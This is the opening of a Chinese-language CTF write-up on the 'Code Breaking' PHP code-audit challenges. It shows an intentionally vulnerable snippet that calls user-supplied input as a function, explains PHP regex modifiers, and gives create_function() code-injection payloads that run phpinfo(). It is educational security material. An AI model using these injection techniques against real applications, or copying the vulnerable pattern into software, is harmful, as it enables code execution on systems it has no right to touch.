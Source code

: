 ```yaml
---
title: Code Breaking Writeup
date: 2018-12-30 12:34:38
tags:
- 代码审计
- Writeup
abstract: 
phith0n 在代码审计知识星球两周年时发起的审计游戏。圈子内容质量很高，欢迎加入，一起学习~
---
```


## 1.easy - function

> PHP 函数利用技巧

```php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

环境：

- Apache 2.4.25
- PHP 7.2.12

#### 预备知识

**仔细看一下 `isD` 模式修饰符**

```
i  ==>  忽略大小写
s  ==>  点号匹配所有字符，包含换行符，未设置则不匹配换行符
D  ==>  模式中的 $ 仅仅匹配目标字符串的末尾（不匹配结尾的换行符）
```

**`create_function( string $args , string $code )` **

常规用法 [PHP create_function() 代码注入](https://blog.51cto.com/lovexm/1743442)

```php
// 可控点为第一个参数
create_function($_GET['code'], '');
-->
create_function('){phpinfo();{//', '') 
    
// 可控点为第二个参数
create_function('', $_GET['code']);
--> 
create_function('', '}phpinfo();//')
```
